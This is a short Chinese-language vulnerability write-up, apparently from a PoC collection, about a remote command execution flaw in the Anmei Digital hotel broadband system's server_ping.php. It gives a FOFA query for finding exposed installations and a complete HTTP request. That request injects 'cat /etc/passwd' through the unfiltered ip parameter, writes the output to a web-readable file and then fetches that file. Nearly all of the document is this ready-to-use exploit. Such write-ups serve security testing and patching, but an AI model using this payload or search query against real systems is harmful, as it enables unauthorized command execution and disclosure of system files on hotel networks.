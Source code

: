 # 安美数字酒店宽带运营系统server_ping远程命令执行漏洞

# 一、漏洞简介
安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行。

# 二、影响版本
+ 安美数字 酒店宽带运营系统

# 三、资产测绘
+ fofa`"酒店宽带运营"`
+ 特征

![1716733888763-054f1cd7-9341-4200-9146-ac1991441834.png](./img/ttotGXeiX4zpQ9fZ/1716733888763-054f1cd7-9341-4200-9146-ac1991441834-819573.png)

# 四、漏洞复现
```rust
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../stc.txt&id=1 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04
```

![1716733909837-15f70e37-1a79-41f6-963f-9cf8f0baac48.png](./img/ttotGXeiX4zpQ9fZ/1716733909837-15f70e37-1a79-41f6-963f-9cf8f0baac48-535338.png)

```rust
/stc.txt
```

![1716733930150-c5db087e-acac-4280-be9c-23405a570807.png](./img/ttotGXeiX4zpQ9fZ/1716733930150-c5db087e-acac-4280-be9c-23405a570807-124394.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gvrg0qu31td8ab01>
